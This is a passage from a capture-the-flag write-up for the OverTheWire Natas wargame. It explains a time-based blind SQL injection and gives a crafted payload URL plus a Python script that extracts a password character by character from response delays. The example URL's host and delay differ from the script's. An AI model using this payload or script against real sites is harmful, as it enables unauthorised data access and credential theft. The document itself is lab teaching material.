 Notice that since SLEEP() does not carry a **"** we use the *always true* clause to close the **"** added by the server.


A crafted URL should look like this:

> http://natas15.natas.labs.overthewire.org/?username=natas16%22%20AND%20SUBSTRING(password,1,1)%20LIKE%20BINARY%20%22d%22%20AND%20SLEEP(320)%20AND%20%221%22=%221

#### Crafting the Attack:

The new script is:

```python
import requests
import string

def brute_force_password(LENGTH, AUTH, CHARS, SQL_URL1, SQL_URL2):
        password = ''
        for i in range(1, LENGTH+1):
            for j in range (len(CHARS)):
                r = requests.get( ( SQL_URL1 + str(i) + SQL_URL2 + CHARS[j] + SQL_URL3 ), auth=AUTH)
                time =  r.elapsed.total_seconds()
                print("Position %d: trying %s... Time: %.3f" %(i, CHARS[j], time))
                #print r.url
                if time >= 9:
                    password += CHARS[j]
                    print("Password so far: " + password)
                    break
        return password

if __name__ == '__main__':
        # authorization: login and password
        AUTH = ('natas17', '****************************')

        # BASE64 password and 32 bytes
        CHARS = string.ascii_letters + string.digits
        LENGTH = 32

        # crafted url
        SQL_URL1 = 'http://natas17.natas.labs.overthewire.org?username=natas18" AND SUBSTRING(password,'
        SQL_URL2 = ',1) LIKE BINARY "'
        SQL_URL3 = '" AND SLEEP(10) AND "1"="1'

        print(brute_force_password(LENGTH, AUTH, CHARS, SQL_URL1, SQL_URL2))
```

Around 15 minutes later I got the password.



### Level 18: Hijacking Session ID


[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]:  http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php
[source code is available]: https://github.com/bt3gl/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits